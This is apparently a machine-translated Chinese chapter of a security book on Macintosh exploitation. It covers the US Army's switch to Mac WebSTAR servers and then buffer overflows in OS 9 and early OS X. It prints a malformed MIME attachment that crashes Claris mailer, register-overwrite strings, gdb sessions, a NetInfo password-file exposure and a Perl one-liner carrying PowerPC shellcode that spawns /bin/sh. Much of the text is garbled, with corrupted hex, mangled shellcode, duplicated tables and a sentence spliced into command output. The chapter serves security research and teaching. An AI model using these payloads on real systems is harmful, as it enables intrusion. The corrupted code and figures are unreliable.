

## 图 1.9 Macintosh 



# 第2 章

# 洪水之前

与大众认知不同，Macintosh 从未短缺。遗憾的是，我不认为当时人们完全理解“崩溃”的影响。对 NT 宿机的利用相对直接，但我认为在利用 OS9 风格的机器上并没有投入太多研究。


在同一时期，美国陆军开始依赖 OS9 和 WebSTAR 作为平台来应对针对其 NT 机器的黑客攻击。我记得给查尔斯·斯蒂文森（Charles Stevenson）打电话，我们在一起对着头条大笑：“陆军进军 macOS”、“陆军轰炸购买 Mac”、“出于安全原因，陆军网站抛弃 NT”、“美军选择 Mac：Windows NT 并非无一不能”。仅从这些标题就能看出，陆军对他们基于 Windows 的解决方案并不满意，并认为 Macintosh 是一个更安全的替代方案。（参见 `http://www.archive.org/web/20030621110454/http://www.dtic.mil/armylink/news/Sep1999/a19990901hacker.html.`）

陆军甚至在国防技术信息中心（Defense Technical Information Center）的网站上发布了自己的头条。他们公开发布的标题为“网页头部被捕，政府网站变得更加安全”。在文中，当时担任陆军网站管理员的克里斯托弗·昂格（Christopher Unger）表示，陆军已将其站点迁移到更安全的平台。他直接提到，他们目前在使用运行 WebSTAR 的 Macintosh 操作系统（`OS`）服务器处理 army.mil 网页。昂格继续说道，他们的决定是基于 W3C 的研究，声称 Macintosh 比其他平台更安全。`www.2rotc.army.mil` 和 `www.cpma.ag.mil` 两个 服务器的镜像可以在 `http://www.attrition.org/mirror/attrition/2000/03/11/cpma.ag.army.mil/` 以及 `www.attrition.org/mirror/attrition/2000/03/10/www.2rotc.army.mil/http/archives.cnn.com/2000/TECH/computing/03/20/crime.boy.idg/index.html` 获取。

尽管昂格声称国防部（`DOD`）正在“为更安全的网站奠定基础，以防止对信息的未经访问”，但我认为遗憾的是，国防部和 W3C 都在帮助这种有缺陷的 Macintosh 的“不可被破解”心态奠定基础。我没有看到任何证据表明新的 Macintosh 服务器比之前的 NT 副本更安全。我同意 Web 服务器更加隐蔽，但并不一定更安全。在“犯罪小子（Crime Boy）”的黑客活动期间，陆军信息安全办公室指挥与控制保护科主任有机会吹嘘他们的选择是多么明智。他在新闻采访中表示，尽管陆军网页是目标，但它太难攻破了，因为它基于“苹果公司（Apple Computer Inc.）的 Macintosh WebSTAR 平台”。（参见 `http://www.macintosh.com/security.html` 和 `http://www.macintouch.com/security2.html.`）

## 第 2 章 • 过去与现在的威胁

当这一切发生时，在 Yellow Dog Linux 工作的软件工程师查理（Charlie）和我正处于 Macintosh 漏洞利用的最前沿。我们一起工作，收集 palante、lamagra 和 draw 留下的细小碎片，并且从字面上来说处于在基于 Macintosh 的硬件上开创自己利用技术的悬崖边缘。我认为，我们为什么觉得这些新闻是如此幽默是显而易见的。当其他人在 Macintosh 邮件列表上发表疯狂的言论时，查理和我正在进行真正的研究。

当那些专家满口胡言时，查理和我正在与 Ghandi 斗争，他发明了一种针对 PowerPC shell机代码的特定规避技术。我完全可以用一只手数出查理我在公开贬低该领域的人数，但实际上只有少数 VXrs 在进行真正的研究。可能还有其他其他人或研究人员发布过任何与 Macintosh 相关的成果。

根据我对旧版 macOS 的了解，我尚未找到任何能够说服我的论点，能让我相信该平台是不可破解的。关于 MacOS 漏洞利用的公开文档缺失可能会让你认为事情是很稳固的。现实中，我没有看到任何除了缺乏良好技术之外的问题。并没有特殊的内存保护或神秘的巫术让 MacOS 变得无法被利用，仅仅是缺乏研究人员和公开技术而已。

如果我们观察 OS 9 机器的内存布局，我们会发现保护内存完全不存在，我们实际上拥有的是整个系统共享的一块单体内存。示例如下：

### 堆区 (Heap zones)

| ID | 大小 | 范围 |
| :--- | :--- | :--- |
| #1 Mod | 13885K | 00002800 to 00D91E8F SysZone |
| #2 Mod | 6K | 000153A0 to 00160D8F ROM read-only zone |
| #3 Mod | 78633K | 00091E90 to 05A5C5C5 Process Manager zone |
| #4 Mod | 558K | 05412C20 to 054A7B8F "SimpleText" |
| #5 Mod | 1263K | 0550FE00 to 0563CEBF "Eudora Internet Mail Server" |
| #6 Mod | 954K | 0566B390 to 05759E9F "Finder" |
| #7 Mod | 361K | 05B8D470 to 0592F6F7 "Folder Actions" |
| #8 Mod | 53K | 05946210 to 0593DDF "FBC Indexing Scheduler" |
| #9 Mod | 153K | 0598B050 to 05A972F5 "FBC Extension" |
| #10 Mod | 15K | 05A3EA10 to 05A4268F |
| #11 Mod | 9215K | 06100000 to 069FFFFD |
| #12 Mod | 216K | 062013D0 to 06237CF |
| #13 Mod | 94K | 062D7450 to 062F0F2 |

当缓冲区溢出时，整个系统都会崩溃，因为超出了程序的固定内存大小进入系统的其他部分。在上面的列表中，任何一个应用程序都可以导致整个系统崩溃。`Eudora Internet Mail Server` (`EIMS`) 当时非常流行，但不幸充满了漏洞。如果你对重启 OS9 机器非常熟悉，在几年前，我发现每天发送 588 个字符就会导致 `EIMS` 崩溃。一旦我连接了调试器，事情开始变得熟悉。在极短的时间内，我能够覆盖 `PC` 寄存器的字，读取来自 `4142344`。`MacBug 6.6.3, Apple Computer Inc. 1998-2000` 当前应用程序是 `Eudora Mail Server` = #67 (PowerMac500)，系统 = `$0910`，不在 RAM 或 ROM 68020。

| 寄存器 | 数值 | 寄存器 | 数值 |
| :--- | :--- | :--- | :--- |
| D0 | 00000000 | A0 | 094E33A4 |
| D1 | 00000025 | A1 | 01422344 |
| D2 | 00000004 | A2 | 00BF63A8 |
| D3 | 00000001 | A3 | 094E33A4 |
| D4 | 00000025 | A4 | 00BF63A8 |


| D5 | 00000000 | A5 | 095C0DBC |
| D6 | 01111001 | A6 | 096FAE0 |
| D7 | 0000000C | A7 | 095BFF3C |
| D10 | 1261K | | |
| (Zones) | 094718A0 to 095ACCDF | | |

无法访问该地址。堆区警告：一个或多个堆可能损坏。使用 `HC ALL` (Heap Check) 进行彻底检查。检查所有堆。`00002830` 系统堆是正常的。

当时，我们正在处理生产邮件列表，我从未能进行任何研究。将问题发送到几个私有邮件列表，并最终让赛门霍（Symantec）知道与此有关。在其他平台上，你可以覆盖指令指针，这对于攻击者来说通常意味着游戏结束。OS9 有什么不同？我尝试在不同的硬件平台上重现该问题，结果完全不同。

### PowerPC 740/750 寄存器

| 寄存器 | 数值 | 寄存器 | 数值 |
| :--- | :--- | :--- | :--- |
| PC | 3F94B7D0 | CR | 1000 |
| CR1 | 0000 | CR2 | 0000 |
| CR3 | 0000 | CR4 | 0000 |
| CR5 | 0000 | CR6 | 0000 |
| CR7 | 0100 | LR | 3F94AAA0 |
| CTR | 3F94002C | MSR | 00000000 |
| SOC Compare Count | MQ | 00000000 | |
| Int | 0ER 000 0100 | | |
| R0 | 00000000 | R8 | 05650640 |
| R16 | 00000000 | R24 | 00000000 |
| SP | 056504F0 | R9 | 05515230 |
| R17 | 00000000 | R25 | 0024749C |
| TOC | 003757E4 | R10 | 41414141 |
| R18 | 00000000 | R26 | 00003032 |
| R3 | 008E2960 | R11 | 41414141 |
| R19 | 00000000 | R27 | 00000002 |
| R4 | 00000001 | R12 | 00000000 |
| R20 | 00000000 | R28 | 056505C5 |
| R21 | 00000000 | R13 | 00000000 |
| R5 | 00000000 | R29 | 00000000 |
| R6 | 68FFF740 | R14 | 00000000 |
| R22 | 00000000 | R30 | 05650578 |
| R7 | 0008A3F0 | R15 | 00000000 |
| R23 | 00000001 | R31 | 05500FE0 |

位于 `00153A0` 的 RCM 只读堆正常
位于 `00D91E90` 的进程管理器堆正常
位于 `0541C2C0` 的 "SimpleText" 堆正常
位于 `0550FE0` 的 "Eudora Internet Mail Server" 堆异常

此块的回指针未指向上一个块。

块头

```
0554C020 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAA
```

位于 `0566B390` 的 "Finder" 堆正常
位于 `05B8D4F70` 的 "Folder Actions" 堆正常
位于 `05946210` 的 "FBC Indexing Scheduler" 正常
位于 `05980B50` 的 "Control Strip Extension" 堆正常
位于 `05A3EA10` 的堆正常

系统堆高可用空间 + TempMem 低可用空间 = #74017216 (#70M)
目标堆是位于 `00002800` 的系统堆
总计位于 `00002800` 的系统堆

### 图 2.1 内存利用



我还没有花太多时间专门研究如何构造用于利用的 OS9 内存，但到目前为止，还没有发现有什么什么是不可能的。我遇到的唯一困难是，内存损坏有时会导致整个机器崩溃。通过一些研究，制定出一种技术似乎是可行的。

## 第 2 章 过去与现在的威胁

在调试器中看到实际溢出后，我和 Charlie 之前的对话有了新的视角。还记得我们以前开玩笑说要尝试弄出在屏幕上显示 "hello world" 所需的汇编代码吗。现在我想知道，将同样的汇编代码放入内存的正确部分以便进行跳转有多困难。此外，我们现在知道了 WebSTAR 产品线的真实记录。如果不是因为硬件和操作系统的模糊性，我们可能真的见证过几个 WebSTAR 服务器被黑客攻击。（参见 http://www.macosserver.com/news/99/september/909014/webstararmy.html）。

我在一点上认同军队的观点，MacOS 是……“在正确时间的正确选择”。然而，对于这个选择有多“正确”，我持不同意见。底线是，Apple 和第三方供应商的 MacOS 产品中存在缓冲区溢出。在当时，MacOS 的安全问题仅被解释为“崩溃”。实际上，如果你查看调试器，就像我们今天使用的任意代码执行在 20 世纪 90 年代后期的 MacOS 上可能是可能的。我们尚未破解 OS9 代码执行的谜团，但好消息是没有任何特殊的限制。只要对有效负载（`payload`）进行一些细致处理，攻击者似乎可以克服 W3C 所吹嘘的缺乏命令 shell 和远程登录的缺陷（参见：http://www.securityfocus.com/bid/3454, http://www.securityfocus.com/bid/4517, http://www.securityfocus.com/bid/12881, http://www.securityfocus.com/bid/7177, http://www.securityfocus.com/bid/19282, and http://www.securityfocus.com/bid/21622）。

撇开针对军队 Web 服务器的任何潜在攻击，还有其他几个可能很有利用价值的问题。MacOS 用户接触到的某些常用应用程序中包含了可以被利用的漏洞。例如，Claris mailer、Microsoft Office、Internet Explorer、Outlook Express、Shockwave Flash、RealPlayer、Eudora 和 Netscape 看起来都是被利用的绝佳候选对象。

在 OS9 上，客户端利用可以轻易实现。同样，在我看来，阻止这种事情发生的唯一原因是缺乏研究，以及缺乏用于利用的良好 OS9 效负载。例如，攻击 Claris mailer 只需要攻击者创建一个带有恶意格式附件的电子邮件。Claris 只需下载该消息就会触发问题。


### 过去与现在的威胁 • 第25 章

Kevin Finisterre <kf@somenonexistent.com>

```
Content-Type: multipart/mixed;
bound=Apple-Mail-7--247544004
Mime-Version: 1.0 (Apple Message framework v915)
Subject: test
Date: Sat, 8 Dec 2007 03:36:27 -0500
--Apple-Mail-7--247544004
Content-Disposition: attachment;
filename=0*AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
filename=1*AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
filename=2-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
filename=3*AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Content-Type: application/octet-stream;
-unix-mode=0664
name=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Content-Transfer-Encoding: 7bit
--Apple-Mail-7--247544004
Content-Type: text/plain;
charset=US-ASCII;
format=flowed
Content-Transfer-Encoding: 7bit
--Apple-Mail-7--247544004-
```

一旦应用程序崩溃，bug 为我们提供了以下信息。这种特定的溢出使得系统看起来是稳定的。没有任何系统被我们的输入损坏。`"i" x 63 . "AAABBBCCCCDEEEGGGGHHHHIIJJKKKLLLL" . "ABCDDDNNNOOO" . "i" x 13` 该字符串以系统方式覆盖了此处此处显示的内存寄存器。上述字符串的每个字符代表下方受控制的内存寄存器。地址 `41414140` 不在 RAM 或 ROM 中。

### PC 740/750 寄存器


## 第2 章 过去与现在的威胁

| CR0 | CR1 | CR2 | CR3 | CR4 | CR5 | CR6 | CR7 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| PC | 41414141 | 1000 | 0010 | 0000 | 0000 | 0100 | 1000 |
| LR | 41414141 | <==OEVO | | | | | |
| CTR | FFCEB918 | | | | | | |
| MSR | 00000000 | | | | | | |
| 计数 | | | | | | | |
| Int | XER 001 01 00 | MQ = 00000000 | | | | | |
| R0 | 41414141 | R8 | 00000000 | R24 | 41414141 |
| SP | 41414141 | R9 | 00000000 | R25 | 41414141 |
| TOC | 05A4E60 | R10 | 00000000 | R26 | 41414141 |
| R3 | 41414141 | R11 | 00000000 | R27 | 41414141 |
| R4 | 41414141 | R12 | 41414141 | R28 | 41414141 |
| R5 | 41414141 | R13 | 00000000 | R29 | 41414141 |
| R6 | 41414141 | R14 | 41414141 | R30 | 41414141 |
| R7 | 41414141 | R15 | 00000000 | R31 | 41414141 |

| 寄存器 | 值 | 寄存器 | 值 | 寄存器 | 值 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| PC | 41414141 | R0 | 41414141 | R24 | 41414141 |
| LR | 41414141 | R8 | 00000000 | R25 | 41414141 |
| CTR | FFCEB918 | R9 | 00000000 | R26 | 41414141 |
| MSR | 00000000 | R10 | 00000000 | R27 | 41414141 |
| Int | 0 | R11 | 00000000 | R28 | 41414141 |
| XER | 001 01 00 | R12 | 41414141 | R29 | 41414141 |
| MQ | 00000000 | R13 | 00000000 | R30 | 41414141 |
| SP | 41414141 | R14 | 41414141 | R31 | 41414141 |
| TOC | 05A4E60 | R15 | 00000000 | | |
| R3 | 41414141 | R16 | 41414141 | | |
| R4 | 41414141 | R17 | 00000000 | | |
| R5 | 41414141 | R18 | 00000000 | | |
| R6 | 41414141 | R19 | 00000000 | | |
| R7 | 41414141 | R20 | 41414141 | | |
| R8 | 00000000 | R21 | 41414141 | | |
| R9 | 00000000 | R22 | 41414141 | | |
| R10 | 00000000 | R23 | 41414141 | | |
| R11 | 00000000 | R24 | 41414141 | | |
| R12 | 41414141 | R25 | 41414141 | | |
| R13 | 00000000 | R26 | 41414141 | | |
| R14 | 41414141 | R27 | 41414141 | | |
| R15 | 00000000 | R28 | 41414141 | | |
| R16 | 41414141 | R29 | 41414141 | | |
| R17 | 00000000 | R30 | 41414141 | | |
| R18 | 00000000 | R31 | 41414141 | | |
| R19 | 00000000 | | | | |
| R20 | 41414141 | | | | |
| R21 | 41414141 | | | | |
| R22 | 41414141 | | | | |
| R23 | 41414141 | | | | |
| R24 | 41414141 | | | | |
| R25 | 41414141 | | | | |
| R26 | 41414141 | | | | |
| R27 | 41414141 | | | | |
| R28 | 41414141 | | | | |
| R29 | 41414141 | | | | |
| R30 | 41414141 | | | | |
| R31 | 41414141 | | | | |

无法访问地址
显示某些

```
05A4E66 4141 4141 4141 4141 4141
05A4E67 4141 4141 4141 4141 4141
05A4E68 4141 4141 4141 4141 4141
05A4E69 4141 4141 4141 4141 4141
05A4E6A 4141 4141 4141 4141 4141
```

### 第 2 章 过去与现在的威胁

通过我默认的 0.0.3 安装版本，以下应用程序可用于此技术进行权限提升。

```
/Applications/Mail.app/Contents/MacOS/Mail
/Applications/Utilities/Disk Utility.app/Contents/MacOS/Disk Utility
/Applications/Utilities/NetInfo Manager.app/Contents/MacOS/NetInfo Manager
/Applications/Utilities/Print Center.app/Contents/MacOS/Print Center
```

上述列出的四个程序将分别提供 `uid=6 (mail)`、`uid=0 (root)` 和 `gid=1 (daemon)`。这个问题并非本地化，而是困扰了 OSX 的早期版本。本地攻击者能够通过利用其他几个问题获取 root 权限。一个相当显而的问题是缺少影子密码文件（shadowed password file）。传统的 UNIX 密码文件受到了保护，理所应当，但 Apple 忘记了保护他们为密码存储设计的接口。Apple 正在使用 NetInfo 来维护用户凭据。`Terminal.app` 会导出本地密码数据库的内容。

```bash
[localhost:~] % cat /etc/passwd
```

### 用户数据库

> 注意，当系统在单用户模式下运行时，会查询此文件。在其他时间，这些信息由查找（lookup）处理。默认情况下，lookup 从 NetInfo 获取信息，因此除非更改了 lookup 的配置，否则不会查询此文件。

| 用户 | UID | GID | 路径 |
| :--- | :--- | :--- | :--- |
| nobody | -2 | -2 | /usr/sbin |
| root | 0 | 0 | /usr/bin |
| daemon | 1 | 1 | /usr/sbin/bin/ |
| www | 70 | 70 | /Library/WebServer |
| unknown | 99 | 99 | /home/unknown |


```bash
[localhost:~] % cat /etc/master.passwd
Permission denied
```

### 过去与现在的威胁

这个问题变得非常有趣，因为在某些情况下你可以远程触发它。这种行为实际上源于 NeXT，它在 10 年前就解决过了（参见 <https://www.cert.org/advisories/CA-1992-01.html>）。NeXT 配置漏洞解释了导致这种现象存在的严重条件。默认情况下，NetInfo 服务器会向任何请求它的机器提供信息。此外，远程用户可以获得对网络管理信息的未经授权访问。由于该问题，远程攻击者只需通过一条命令即可导出配置不当的服务器的密码文件。可以通过 NetInfo 中提供的各种命令获取有关机器的附加信息。本质上，任何带有“网络”的机器都是脆弱的：

| 用户 | UID | GID | 路径 |
| :--- | :--- | :--- | :--- |
| nobody | -2 | -2 | /usr/sbin |
| root | 0 | 0 | /usr/bin |
| daemon | 1 | 1 | /usr/sbin/bin/ |
| www | 70 | 70 | /Library/WebServer |
| unknown | 99 | 99 | /home/unknown |

这个问题并没有直接提供 root 权限，但它确实为攻击者提供了日后破解密码的机会。随着基于 x86 架构的 Macintosh 的出现，OSX 的攻击面增加了几个新维度。在进行硬件切换时，脑海中浮现的第一件事之一就是基于 Unicode 攻击的可能性。由于地址空间的布局，这种攻击在 PowerPC Macintosh 上是不可能的。通过查看 `gdb`，我们可以很好地了解在新的 Macintosh 上成功的 Unicode 攻击是如何发生的。如果我们向程序传递一个 A 字符串，我们将用 2 字节的 Unicode 控制字符覆盖 `EDI` 和 `EIP` 寄存器。

```bash
(gdb) r perl -e 'print "A" x 24'
```

正在调试的程序已经启动。

```
Start the beginning? (y or n) y
Starting program: /Users/kministre/Desktop/book/uni perl -e print "A" x 24

Program received signal EXC_BAD_ACCESS, Could not access memory.
Reason: KERN INVALID_ADDRESS at address: 0x00410041
0x00410041 in ?? ()
```

在这个特定的示例中，我们只对帧 0 进行操作，因为第二个帧已经严重损坏了。

```bash
(gdb) bt
#0 0x00410041 in ?? ()
#1 0x00000000 in ?? ()
(gdb) i r
eax 0x0
ecx 0x0
edx 0x0
ebx 0xbffff7e0 -1073743904
esp 0xbffff760 0xbffff760
ebp 0x4100041 0x4100041
esi 0x0
edi 0x4100041 4259905
eip 0x4100041 0x4100041
flags 0x10282 66178
cs 0x1723
ss 0x1f31
ds 0x1f31
es 0x1f31
fs 0x0
gqs 0x3755
```

```bash
(gdb) i f
Stack level 0, frame at 0xbffff760
```

### 过去与现在的威胁 · 第 2 章节

监听

GDB 已连接

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD

一旦应用程序启动，GDB 监听器将自动启动。

你必须使用另一个终端来连接它并开始调试。

```
localhost: knister5 gdb --attach
gnu gdb 6.3.50-20050815 (Apple version gdb-768) (Tue Oct 2 04:11:19 UTC 2007)
Copyright 2004 Free Software Foundation, Inc.
```

GDB 是免费软件，受 GNU 通用公共许可证保护，欢迎您在特定条件下修改它和/或分发其副本。

输入 "show copying" 查看条件。

GDB 不提供任何保证。输入 "show warranty" 查看详情。

此 GDB 配置为 "powerpc-apple-darwin"。

```
(gdb) attach vuln
Attaching to process 1571.
Switching to remote protocol
[New thread 267]
[Switch to thread 267]
0xfc0100c in ?? ()
pid 1571 -> mash task 7427
Reading symbols for shared libraries . done
Reading symbols for shared libraries . done
0xfc0100c in dyid_dyld_start ()
(gdb) c
Continuing.
Reading symbols for shared libraries ... done
Reading symbols for shared libraries ... done
Program received signal SIGSEGV, Segmentation fault.
0x41424344 in ?? ()
```

当前加载到调试器中的示例程序包含一个通用的栈溢出。通过向程序传递一个长字符串到 `ARGV` 内存使其被覆盖。此时，对于任何利用过 PowerPC 程序的人来说，这些情况应该都很熟悉。我们同时控制 `PC` 和 `LR`，并且在 `R1` 附近可以使用可用 shellcode。在 Intel 世界中，这等同于 `EIP` 被覆盖，且 shellcode 正欢快地在 `ESP` 中待命。


### 第 2 章节 · 过去与现在的威胁

```
(gdb) i r
r0 0x41424344 1094861636
r1 0xbffee0 3221221088
r2 0x0 0
r3 0x1 1
r4 0x0 0
r5 0x1252993
r6 0xbffeefed 3221220780
r7 0x1252993
r8 0x88922185
r9 0x88922185
r10 0x10 16
r11 0x82000022 2181038114
r12 0x0 0
r13 0x0 0
r14 0x0 0
r15 0x0 0
r16 0x0 0
r17 0x0 0
r18 0x0 0
r19 0x0 0
r20 0x0 0
r21 0x0 0
r22 0x0 0
r23 0x0 0
r24 0x0 0
r25 0x2 2
r26 0xbfffff02c 3221221420
r27 0xbffeefd 3221221328
r28 0xbffeefc4 3221221316
r29 0x1e6c 7788
r30 0x41411411 109479585
r31 0x41411411 109479585
pc 0x41424344 1094861636
ps 0x0 0
0x2000022 33554466
lr 0x41424344 1094861636
ctr 0x92181c 245114160
xr 0x2000000 536870912
mq 0x0 0
fpscr 0x0 0
vscr 0x1
save 0x0 0
```

在这种情况下，你所要求的已经无所求了。由于此程序在 PowerPC 模拟下运行，随机化内存和不可执行栈在无处可见。因此，你可以直接跳转到你的 shellcode。正如你所看到的，我们获取 a 没有问题。

```
localhost: knister._vuln perl -e 'print "A" x 288
"\xbxf\xfxf\xec" x 10
"\x7c\xa5\x2a\x79"
"\x40\xa4\xfa\x7d"
"\x7f\xff\x02\x66"
"\x3b\xff\x01\x30"
"\x38\xf7\xfe\x74"
"\x90\xa6\xff\xf8"
"\x38\x81\xff\x88"
"\x3b\xc0\x76\x01"
"\x90\xa1\xff\xc"
"\x7f\xc0\x4e\x70"
"/bin/sh
```

启动 GDB 会话

监听

GDB 已连接

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
sh-3.2 uname -a
Darwin localhost.local 9.1.0 Kernel Version 9.1.0: Wed Oct 31 17:46:22 PDT 2007; root:xnu-128可能会发现 PowerPC 进程切换到了 Intel 进程。如果你在活动监视器中观察这一点，这看起来很有趣。

### 活动监视器
图 2.2 活动监视器

| PID | 进程名称 | 用户 | CPU |  | RSIZE | VSZ | 种类 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 25 | loginwindow | kfinistere | 0 | 3 | 29.91 MB | 762.69 MB | Intel |
| 113 | launchd | kfinistere | 0 | 3 | 528.00 MB | 585.73 MB | Intel |
| 162 | Spotlight | kfinistere | 0 | 6 | 7.44 MB | 854.37 MB | Intel |
| 163 | UserEventAgent | kfinistere | 0 | 2 | 2.06 MB | 717.05 MB | Intel |
| 164 | pboard | kfinistere | 0 | 1 | 528.00 MB | 586.63 MB | Intel |
| 166 | Dock | kfinistere | 0 | 3 | 14.86 MB | 802.98 MB | Intel |
| 167 | SystemUIServer | kfinistere | 0 | 2 | 9.17 MB | 784.57 MB | Intel |
| 169 | Finder | kfinistere | 0 | 9 | 39.37 MB | 841.98 MB | Intel |
| 176 | ASDerver | kfinistere | 0 | 2 | 5.54 MB | 730.94 MB | Intel |
| 177 | AirPort Base | kfinistere | 0 | 3 | 3.10 MB | 747.41 MB | Intel |
| 182 | CrossOver HD | kfinistere | 0 | 1 | 2.47 MB | 726.05 MB | Intel |
| 285 | Apple.service | kfinistere | 0 | 1 | 5.64 MB | 601.72 MB | Intel |
| 1118 | Terminal | kfinistere | 0 | 4 | 11.11 MB | 791.65 MB | Intel |
| 1420 | bash | kfinistere | 0 | 1 | 1000.00 MB | 586.38 MB | Intel |
| 1505 | iChat | kfinistere | 0 | 3 | 4.17 MB | 728.55 MB | Intel |
| 1529 | mdworker | kfinistere | 0 | 5 | 4.54 MB | 618.55 MB | Intel |
| 1603 | iTunes | kfinistere | 5 | 6 | 79.66 MB | 887.64 MB | Intel |
| 1742 | Activity Monitor | kfinistere | 1 | 5 | 14.27 MB | 831.21 MB | Intel |
| 1748 | bash | kfinistere | 0 | 1 | 932.00 KB | 586.18 MB | Intel |
| 1774 | SysServer | kfinistere | 0 | 2 | 7.13 MB | 597.73 MB | Intel |
| 1778 | vigil | kfinistere | 0 | 2 | 2.17 MB | 619.36 MB | PowerPC |
| 1779 | gdb-powerpc-app | kfinistere | 0 | 2 | 8.77 MB | 675.41 MB | PowerPC |
| 1789 | grab | kfinistere | 0 | | | |

## 过去与现在的威胁 · 第 2 章

我们可以看到它的调试输出是类似的；然而，它比示例 vuln.exe 稍微详细一些。Winamp 有多个 DLL 辅助程序，因此内存布局比我们的示例要复杂一些。

```
C:\program files\winamp\wine: Unhandled page fault on read access to 0x43424141 at
address 0x7b83cb8 (thread 002d), starting debugger...
Unhandled exception: page fault on read access to 0x43424141 in 32-bit
code (0x7b83cb8a).
Register dump:
CS:0017 SS:001f ES:001f FS:1007 GS:0037
EIP:7b83cb8a ESP:0033e50 EBP:0033e668 EFLAGS:02102026 - 00-
RIP1n
EAX:00000001 EBX:7b83cb3d ECX:ffffff EDX:00000001
ESI:00000017 EDI:4324141
Stack dump:
0x0033e5e0: 00000017 00000000 00000000 00000000
0x0033e5f0: 00000000 00000000 00000000 00000000
0x0033e600: 00000000 00000000 00000000 00000000
0x0033e610: 00000000 00000000 00000000 00000000
